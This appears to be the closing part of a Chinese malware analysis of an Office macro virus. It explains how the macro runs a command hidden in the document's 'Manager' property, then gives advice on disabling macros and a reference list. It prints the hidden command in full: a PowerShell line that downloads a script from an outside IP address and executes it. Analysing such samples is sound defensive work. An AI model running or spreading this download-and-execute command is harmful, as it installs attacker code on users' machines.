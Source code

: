 
响应两个文档打开事件，AutoOpen 与Auto_Open，直接执行 winshell函数， winshell函数读取文件内建属性，Manager 的值，直接执行起来。Manager值，我们使用右键文件属性，查看为，

![p18](http://drops.javaweb.org/uploads/images/aacd056dff3659ee2fc380d004962ea7f4da1ef9.jpg)

```
powershell.exe -nop -w hidden -c $b=new-object net.webclient;$b.proxy=[Net.WebRequest]::GetSystemWebProxy();$b.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $b.downloadstring('http://37.28.154.204:8081/ygklKbyIVG51Kol');

```

是一段 Powershell 执行的脚本代码，从指定 URL （`http://37.28.154.204:8081/ygklKbyIVG51Kol`） 下载文件。目前测试此URL已经无法访问。

0x04 总结
=======

* * *

以加密勒索为代表的病毒，越来越多的使用Office宏,js,vbs等非Pe文件来传播。通过脚本代码动态向Windows 目录中释放可执行文件或者从服务器下载可执行文件。

非PE病毒查杀引擎QEX是 360安全产品中负责查杀宏病毒及vbs、js、html等脚本病毒的独有引擎。上述样本QEX引擎均已查杀。

在这里也提醒 Microsoft Office 文档系列软件的使用用户，

1.  如日常无使用宏的需求，请禁用 Office 宏，禁用方式参考
    
    [https://support.office.com/zh-cn/article/%E5%90%AF%E7%94%A8%E6%88%96%E7%A6%81%E7%94%A8-Office-%E6%96%87%E6%A1%A3%E4%B8%AD%E7%9A%84%E5%AE%8F-7b4fdd2e-174f-47e2-9611-9efe4f860b12](https://support.office.com/zh-cn/article/%E5%90%AF%E7%94%A8%E6%88%96%E7%A6%81%E7%94%A8-Office-%E6%96%87%E6%A1%A3%E4%B8%AD%E7%9A%84%E5%AE%8F-7b4fdd2e-174f-47e2-9611-9efe4f860b12)
    
2.  对于经常使用宏工作的用户，请安装安全软件，定期更新病毒库，对于他人发送的文档，在打开之前请先扫描。
    

0x05 Reference
==============

* * *

*   [https://blogs.technet.microsoft.com/mmpc/2016/05/17/malicious-macro-using-a-sneaky-new-trick/](https://blogs.technet.microsoft.com/mmpc/2016/05/17/malicious-macro-using-a-sneaky-new-trick/)
*   [http://www.freebuf.com/articles/system/104221.html](http://www.freebuf.com/articles/system/104221.html)
*   [https://www.fireeye.com/blog/threat-research/2016/04/ghosts_in_the_endpoi.html](https://www.fireeye.com/blog/threat-research/2016/04/ghosts_in_the_endpoi.html)
*   [http://superuser.com/questions/807926/how-to-bypass-the-vba-project-password-from-excel](http://superuser.com/questions/807926/how-to-bypass-the-vba-project-password-from-excel)
*   [https://support.office.com/zh-cn/article/%E5%90%AF%E7%94%A8%E6%88%96%E7%A6%81%E7%94%A8-Office-%E6%96%87%E6%A1%A3%E4%B8%AD%E7%9A%84%E5%AE%8F-7b4fdd2e-174f-47e2-9611-9efe4f860b12](https://support.office.com/zh-cn/article/%E5%90%AF%E7%94%A8%E6%88%96%E7%A6%81%E7%94%A8-Office-%E6%96%87%E6%A1%A3%E4%B8%AD%E7%9A%84%E5%AE%8F-7b4fdd2e-174f-47e2-9611-9efe4f860b12)
*   [http://bobao.360.cn/learning/detail/2827.html](http://bobao.360.cn/learning/detail/2827.html)